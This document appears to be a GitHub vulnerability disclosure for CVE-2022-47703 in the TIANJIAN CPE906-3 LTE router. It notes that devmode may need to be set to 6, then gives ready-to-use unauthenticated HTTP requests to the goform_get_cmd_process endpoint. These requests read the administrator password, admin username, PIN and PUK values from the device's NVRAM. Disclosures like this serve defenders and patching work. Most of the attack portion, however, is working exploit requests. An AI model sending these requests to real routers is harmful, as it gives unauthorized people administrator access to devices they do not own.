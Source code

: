 #### CVE-2022-47703
#### Software Version WEB5.0_LCD_20200513
#### Firmware Version MV8.003
#### Hardware Version CPF906-V5.0_LCD_20200513
#### Vendor: TIANJIAN  
#### Router Model: CPE906-3 (https://rozetka.com.ua/291089138/p291089138/)
----

To perform this attack you may need to set the devmode to 6 if it is not by default (which I beleive it is) as seen below.          

![image](https://user-images.githubusercontent.com/25066959/208161200-d0be214e-ab70-4853-b68b-d9af9d21e5ec.png)

Once this is done it is possible to read arbitrary values from the configuration table in the device NVRAM.          

A request like the following will read the value of the admin_Password field. With this request you will be able to retreive the administrator password for the device unauthenticated.         

This can be viewed in the broswer or burp for instance, as seen below. 

```
http://192.168.199.1/goform/goform_get_cmd_process?cmd=admin_Password&multi_data=1
```
![image](https://user-images.githubusercontent.com/25066959/208161010-ddce8cc0-7ab4-40c9-83db-cfbf57907631.png)


![image](https://user-images.githubusercontent.com/25066959/208161155-dd37a5bb-87c2-4d70-9e8a-3f1b821c23e3.png)

```
http://192.168.199.1/goform/goform_get_cmd_process?isTest=false&cmd=modem_main_state,puknumber,
pinnumber,psw_fail_num_str,login_lock_time,admin_user,admin_Password&multi_data=1&_=0
```
![image](https://user-images.githubusercontent.com/25066959/208161411-67c7d073-375f-48e1-84f3-9f6264a0b765.png)


![image](https://user-images.githubusercontent.com/25066959/208161356-7c9103ce-5543-4b89-9ebf-f84282c2d26f.png)

